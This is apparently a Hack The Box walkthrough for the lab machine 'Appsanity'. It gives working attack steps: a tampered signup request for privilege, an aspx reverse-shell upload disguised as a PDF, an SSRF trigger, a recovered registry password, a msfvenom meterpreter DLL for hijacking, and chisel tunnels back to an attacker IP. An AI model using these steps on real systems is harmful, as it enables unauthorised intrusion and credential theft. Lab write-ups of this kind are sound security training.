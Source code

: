  <font size="10">Appsanity</font>

	

### Difficulty:

`hard`

# Enumeration

Port 22/80 open and another port 7680 with service pando-pub.

Website on port 80 hosted on a Windwos Machine.

## Adding meddigi.htb
 
```
echo '10.10.11.238 meddigi.htb' | sudo tee -a /etc/hosts
```

## VHOST Enumeration

'''
gobuster vhost -u https://meddigi.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 40 -k

Found: portal.meddigi.htb Status: 200 [Size: 2976]
'''

## Adding new vhost

```
 echo '10.10.11.238 portal.meddigi.htb' | sudo tee -a /etc/hosts
```

## Creating Medicaccount

Use burpsuite or another webproxy and change the Acctype=2 for the POST Request.

```
POST /Signup/SignUp HTTP/2
Host: meddigi.htb
Cookie: .AspNetCore.Antiforgery.ML5pX7jOz00=CfDJ8Iv6u6K2FUZAoGw6DvgspEndHLWyVUHRj_MC0o_QkYgKVdzcb_WOEu9uMf7tYqTRe8iWVFV4h6HXz7-_O9T4DPSBTqez1ZEv8hAvh4Xh-fEwE-TIpGW0YRu-wrpTZ8QqDK5_1ko2wtgcal6Qc99jWUE
Content-Length: 360
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://meddigi.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://meddigi.htb/signup
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

Name=htb&LastName=htb&Email=htb%40htb.com&Password=GYWHpXX8sWgOQg77UpKP&ConfirmPassword=GYWHpXX8sWgOQg77UpKP&DateOfBirth=2000-01-01&PhoneNumber=0123456789&Country=hlho&Acctype=2&__RequestVerificationToken=CfDJ8Iv6u6K2FUZAoGw6DvgspEm612x-aRUDUNkmE4c7sLag94-jKuR_5yQjGRtRidQa-6_YKmKZVsx9MJHnnCLqiit99dPVp3BabKO2FAmmL4B_V4UtTFkKaiZhn8WE_7pktNeqh6CcPl5hTT8yGQ8ZBzM
```

## Login to portal

Login to the Portal using the cookie access_token.

# Foothold

## Upload shell

Upload a reverse Shell using this as a template, keep the extension but add 
```
%PDF-1.7
```

https://github.com/borjmz/aspx-reverse-shell


## Trigger shell

At the issue Prescrition an ssrf can be triggert. Getting URL of our shell by entering http://127.0.0.1.8080 in Prescription Link.


Trigger shell by entering the url
```
http://127.0.0.1:8080/ViewReport.aspx?file=2e85d00e-5c24-449e-a349-117cc76a69a5_shell.aspx
```

# Privilege Escalation

## Query Key:

Using dnSpy to decode ExaminationManageMent.dll 
```
using (RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("Software\\MedDigi"))
```

```202
meterpreter > reg queryval -k HKLM\\Software\\MedDigi -v EncKey
Key: HKLM\Software\MedDigi
Name: EncKey
Type: REG_SZ
Data: 1g0tTh3R3m3dy!!
```

## Connect as devdoc

```
evil-winrm -i 10.10.11.238 -u devdoc -p '1g0tTh3R3m3dy!!'
```

## Reverse engineering

Downloading ReportManagement.exe from C:\Program Files\ReportManagement. 

C:\Program Files\ReportManagement\Libraries\externalupload.dll is vulnerable to hijacking dll

## Createing shell-code

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f dll -o externalupload.dll
```

## Uploading shell

```
*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> upload externalupload.dll
```

## Forwarding Reports Management administrative console(from first shell)

```
portfwd add -l 10100 -p 100 -r 127.0.0.1
```

and connect via nc.

## Connect to ReportManagement

```
 nc 127.0.0.1 10100
```

and trigger shell by "upload anything"

### Chispel

Having Problem with the payload use chipsel for porfowarding

Attacker
```
chisel server --port 8888 --reverse
```

Victim
```
*Evil-WinRM* PS C:\Users\devdoc\Desktop> ./chisel.exe client 10.10.14.8:8888 R:100:127.0.0.1:100
```





